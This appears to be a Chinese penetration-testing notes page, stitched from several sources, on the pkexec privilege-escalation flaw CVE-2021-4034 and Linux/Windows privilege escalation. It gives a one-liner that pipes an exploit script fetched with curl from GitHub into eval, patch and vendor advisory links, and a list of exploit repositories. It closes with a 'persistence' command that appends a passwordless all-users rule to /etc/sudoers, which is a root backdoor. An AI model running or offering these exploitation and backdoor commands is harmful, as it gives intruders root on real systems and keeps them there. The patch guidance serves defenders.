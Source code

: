 利用执行

可联网环境可以使用单行命令

```
eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"
```

```
wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.zip

```

四、修复建议

更新官方补丁，下载地址：https://gitlab.freedesktop.org/polkit/polkit/-/commit/a2bf5c9c83b6ae46cbd5c779d3055bff81ded683

根据不同厂商的修复建议或安全通告进行防护。

Redhat：https://access.redhat.com/security/cve/CVE-2021-4034

Ubuntu：https://ubuntu.com/security/CVE-2021-4034

Debian：https://security-tracker.debian.org/tracker/CVE-2021-4034

临时防护可以移除 pkexec 的 suid位。

chmod 0755 /usr/bin/pkexec 作者：蜗牛学苑 https://www.bilibili.com/read/cv22967681/ 出处：bilibili
## 参考资料

- [2021.04.06] - <https://i.hacking8.com/tiquan/> - 提权辅助网页 Windows提权辅助
- [2021.04.06] - <https://github.com/Ascotbe/Kernelhub> - Windows 提权漏洞合集(带有编译环境/详细说明)
- [2021.04.06] - <https://github.com/SecWiki/windows-kernel-exploits> - windows-kernel-exploits Windows平台提权漏洞集合
- [2021.04.06] - <https://github.com/SecWiki/linux-kernel-exploits> - linux-kernel-exploits Linux平台提权漏洞集合
- [2021.04.06] - <https://github.com/worawit/CVE-2021-3156> - CVE-2021-3156 sudo 提权漏洞 各平台下的EXP
- [2021.04.06] - <https://github.com/FireFart/dirtycow> - CVE-2016-5195 脏牛漏洞提权EXP
- [2021.04.14] - <https://github.com/liamg/traitor> - 自动化Linux权限提升工具
- [2021.06.22] - [PowerShell 脚本可快速查找本地提权漏洞的缺失软件补丁](https://github.com/rasta-mouse/Sherlock)
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/



windows提权

- http://www.fuzzysecurity.com/tutorials/16.html
- http://toshellandback.com/2015/11/24/ms-priv-esc/

# 权限临时维持
```
echo 'ALL ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
exit
sudo su -
```